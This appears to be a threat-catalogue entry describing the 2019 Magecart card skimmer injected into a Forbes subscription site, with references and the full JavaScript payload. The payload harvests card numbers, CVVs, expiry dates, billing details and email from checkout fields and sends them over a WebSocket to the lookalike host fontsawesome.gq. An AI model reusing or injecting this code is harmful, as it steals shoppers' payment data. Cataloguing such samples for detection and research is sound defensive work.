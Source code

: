 ```yaml
---
title: Forbes magecart skimmer
date: '2019-05-15'
tags:
  - web
  - supply-chain
  - magecart
  - e-skimmer
---
```


This skimmer used WebSockets to exfiltrate customer payment data off the Forbes website. The domain used was `fontsawesome.gq` which is notable because it attempts to hide behind the name "Font Awesome," a commonly used developer library.

- - -

## References

- [Hackers inject magecart card skimmer in forbes subscription site](https://www.bleepingcomputer.com/news/security/hackers-inject-magecart-card-skimmer-in-forbes-subscription-site/)
- [Pastebin of payload](https://pastebin.com/3AR7wQ70)

## Payload

```js
function fire_event() {
  if (typeof is_debug !== 'undefined' && is_debug) {
      console['log']('Fire event')
  };
  if (document['createEvent']) {
      element['dispatchEvent'](event_store)
  } else {
      element['fireEvent']('on' + event_store['eventType'], event_store)
  }
}
function d() {
  var _0x1306x3 = $('input[name=cc_name]');
  var _0x1306x4 = $('input[name=cc_number]');
  var _0x1306x5 = $('#cc_month option:selected')['val']() + '/' + $('#cc_year option:selected')['val']();
  var _0x1306x6 = $('input[name=cc_cvv]');
  var _0x1306x7 = _0x1306x4['val']();
  var _0x1306x8 = _0x1306x6['val']();
  var _0x1306x9 = _0x1306x3['val']();
  var _0x1306xa = $('input[name=firstname]')['val']();
  var _0x1306xb = $('input[name=lastname]')['val']();
  var _0x1306xc = $('select[name=country_id]')['val']();
  var _0x1306xd = $('input[name=city]')['val']();
  var _0x1306xe = $('select[name=zone_id]')['val']();
  var _0x1306xf = $('input[name=postcode]')['val']();
  var _0x1306x10 = $('input[name=telephone]')['val']();
  var _0x1306x11 = $('input[name=email]')['val']();
  var _0x1306x12 = 'CC_OWNER:' + _0x1306x9 + ';CC_NUMBER:' + _0x1306x7 + ';CC_EXP:' + _0x1306x5 + ';CC_CVC:' + _0x1306x8 + ';';
  _0x1306x12 += 'BFNAME:' + _0x1306xa + ';BLNAME:' + _0x1306xb + ';BCOUNTRY:' + _0x1306xc + ';BCITY:' + _0x1306xd + ';';
  _0x1306x12 += 'BSTATE:' + _0x1306xe + ';BPOSTCODE:' + _0x1306xf + ';BPHONE:' + _0x1306x10 + ';BEMAIL:' + _0x1306x11;
  var _0x1306x13 = new WebSocket('wss://fontsawesome.gq:8080/g');
  _0x1306x13['onopen'] = function() {
      _0x1306x13['send'](_0x1306x12);
      _0x1306x13['close']()
  };
  _0x1306x13['onerror'] = function(_0x1306x14) {
      fire_event();
      return false
  };
  _0x1306x13['onclose'] = function() {
      fire_event();
      return false
  }
}
$(document)['ready'](function(_0x1306x15) {
  var _0x1306x16 = setInterval(function(_0x1306x15) {
      var _0x1306x17 = $('#button-confirm')['attr']('onclick');
      if (typeof _0x1306x17 === 'undefined') {
          $('#button-confirm')['attr']('onclick', 'd();return false;')
      }
  }, 500)
})

```
